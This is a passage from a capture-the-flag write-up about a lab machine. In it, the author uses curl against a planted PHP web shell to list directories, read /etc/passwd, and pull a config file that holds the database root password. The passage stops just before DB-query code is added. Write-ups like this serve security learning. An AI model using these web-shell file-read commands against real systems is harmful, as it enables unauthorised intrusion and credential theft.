 After running that, I can list a directory:

```bash
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
Array
(
    [0] => .
    [1] => ..
    [2] => sysadmin
)
```

This user can’t read in /home/sysadmin.

I can also get a file, like /etc/passwd:

```bash
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[snip]...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
red:x:1001:1001::/home/red:/bin/false
```

### Database

It’s really interesting to note that in the /etc/passwd file, the user mysql has a shell, /bin/bash. That’s unusual, as mysql typically sets the mysql user’s shell to /bin/false. Given the hacked theme of the box, it’s worth looking at this further.

Looking at mysql’s home directory doesn’t return anything, which indicates a permissions issue. I can try to check out the database, especially to see if it can execute. I’ll pull the config file at the same path I noted in the backup. The DB password is still “changethis”:

```bash
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www/html/shop/includes/config.inc.php"
<?php
...[snip]...
// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');  
...[snip]...
```

I’ll add some code to my PHP that will run DB queries:

